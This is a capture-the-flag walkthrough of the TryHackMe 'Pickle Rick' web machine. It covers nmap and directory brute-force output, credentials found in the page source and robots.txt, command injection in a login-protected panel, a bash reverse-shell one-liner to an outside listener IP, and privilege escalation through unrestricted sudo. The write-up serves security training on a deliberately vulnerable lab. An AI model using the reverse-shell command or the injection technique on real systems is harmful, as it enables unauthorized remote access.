# TryHackMe Pickle Rick

{ .glightbox .center width="600" }

```
TryhackMe Machine:- Pickel Rick
Machine Info:- Web
Machine Level:- Easy
```

---
This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

Deploy the virtual machine on this task and explore the web application: 10.10.237.59

Started nmap scan.

```bash
 nmap 10.10.237.59Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-06 21:24 ISTNmap scan report for 10.10.237.59Host is up (0.16s latency).Not shown: 998 closed tcp ports (conn-refused)PORT   STATE SERVICE22/tcp open  ssh80/tcp open  httpNmap done: 1 IP address (1 host up) scanned in 40.93 seconds
```

Now ssh(22) and http(80) is open now i also perfromed directory brute force and found.

```bash
  _|. _ _  _  _  _ _|_    v0.4.3.post1 (_||| _) (/_(_|| (_| )Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25Wordlist size: 11460Output File: /Users/tanish/reports/_10.10.237.59/_23-11-06_21-25-14.txtTarget: http://10.10.237.59/[21:25:14] Starting:[21:25:24] 403 -  298B  - /.ht_wsr.txt[21:25:25] 403 -  301B  - /.htaccess.bak1[21:25:25] 403 -  301B  - /.htaccess.orig[21:25:25] 403 -  301B  - /.htaccess.save[21:25:25] 403 -  303B  - /.htaccess.sample[21:25:25] 403 -  299B  - /.htaccessOLD[21:25:25] 403 -  292B  - /.html[21:25:25] 403 -  302B  - /.htaccess_extra[21:25:25] 403 -  301B  - /.htaccess_orig[21:25:25] 403 -  299B  - /.htaccess_sc[21:25:25] 403 -  299B  - /.htaccessBAK[21:25:25] 403 -  300B  - /.htaccessOLD2[21:25:25] 403 -  291B  - /.htm[21:25:25] 403 -  301B  - /.htpasswd_test[21:25:25] 403 -  297B  - /.htpasswds[21:25:25] 403 -  298B  - /.httr-oauth[21:25:27] 403 -  292B  - /.php3[21:25:27] 403 -  291B  - /.php[21:25:53] 200 -  588B  - /assets/[21:25:53] 301 -  313B  - /assets  ->  http://10.10.237.59/assets/[21:26:20] 200 -  455B  - /login.php[21:26:40] 200 -   17B  - /robots.txt[21:26:41] 403 -  301B  - /server-status/[21:26:41] 403 -  300B  - /server-statusTask Completed
```

Now /assets, /robots.txt and login.php and login.php are 200 ok so i visited them one by one first the main page.

{ .glightbox .center width="500" }

Now on the i looked at the page source and found the username.

{ .glightbox .center width="500" }

And on the assets i didnt find anything significant i visted the robots.txt and found the password for the username.

{ .glightbox .center width="500" }

Now on logged in using the username and the password i got on /login.php

And after login found command panel i tested it and a possible command injection.

{ .glightbox .center width="500" }


{ .glightbox .center width="500" }

And yes it worked but it also disabled the commands.

{ .glightbox .center width="500" }

So lets try to get a shell on this im using.

```bash
bash -c 'bash -i >& /dev/tcp/10.8.197.78/8081 0>&1'
```

And get your listener ready it pop a shell.

{ .glightbox .center width="500" }

Got the first ingredient.

{ .glightbox .center width="500" }

Now looked around and in /home/rick found the second file.

{ .glightbox .center width="500" }

Now the to escalate privilege i found that the user www/data can exeute any sudo commands.

{ .glightbox .center width="500" }

And found the 3rd ingredient too.

Thank you for reading
